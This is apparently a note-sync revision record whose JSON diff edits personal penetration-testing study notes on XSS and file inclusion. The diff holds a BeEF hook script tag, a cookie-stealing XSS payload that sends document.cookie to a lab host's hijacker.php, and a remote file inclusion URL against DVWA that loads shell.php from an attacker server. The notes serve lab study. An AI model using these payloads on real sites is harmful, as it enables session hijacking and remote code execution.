 id: c7ec0ea58a5c47039e2318727773648e
parent_id: 76d5dfd3985d461b93d6ca2eb41ede72
item_type: 1
item_id: 1094d9f035074e3a8ef344a61a88cf5e
item_updated_time: 1643081194224
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ll\\\n\\\n\"],[-1,\"> &lt;script src=\\\"http://172.17.15.118:3000/hook.js\\\"&gt;&lt;/script&gt; #For Beef; Change hook.js to the reverse shell script in php webshells\\\n\\\n\"],[0,\"## U\"]],\"start1\":21,\"start2\":21,\"length1\":152,\"length2\":8},{\"diffs\":[[0,\"Beef\"],[-1,\" \"],[0,\"\\\n\\\n\"],[-1,\"*\"],[1,\"\\\\*\\\\\"],[0,\"*Note: \"],[-1,\"*\"],[1,\"\\\\*\\\\\"],[0,\"*XSS\"]],\"start1\":40,\"start2\":40,\"length1\":20,\"length2\":23},{\"diffs\":[[0,\"op, then\"],[-1,\" \"],[0,\"\\\n\\\nFirst,\"]],\"start1\":1003,\"start2\":1003,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"().src=’\"],[1,\"[\"],[0,\"http://1\"]],\"start1\":1087,\"start2\":1087,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\".cookie;\"],[1,\"](http://10.11.0.4/hijacker.php?cookie=%E2%80%99+document.cookie;)\"],[0,\"&lt;/scr\"]],\"start1\":1143,\"start2\":1143,\"length1\":16,\"length2\":82},{\"diffs\":[[0,\"ID generated\"],[1,\"\\\n\\\nUse Cookie-Editor to access the webpage\\\n\\\n# File Inclusion Vulnerabilities\\\n\\\nCheck values of register\\\\_globals, allow\\\\_url wrappers.\\\n\\\n- In [version](https://www.plus2net.com/php_tutorial/php-version.php) PHP 5 and above by default, *register_global* is kept OFF.\\\n- If allow\\\\_url\\\\_include or allow\\\\_url\\\\_fopen is enabled, proceed to do RFI\\\n\\\nMake sure to look out for parameters that are linked to files (signs of file inclusion)\\\n\\\n![28d96990055803bbc316ed7557f0ea00.png](:/a43d4d1f5d3b4e1a9802a632d5ca66e3)\\\n\\\n> 192.168.0.2/DVWA/vulnerabilities/fi/?page=http://192.168.0.5:8000/shell.php #For RFI\"]],\"start1\":1316,\"start2\":1316,\"length1\":12,\"length2\":604}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-25T03:27:05.248Z
created_time: 2022-01-25T03:27:05.248Z
type_: 13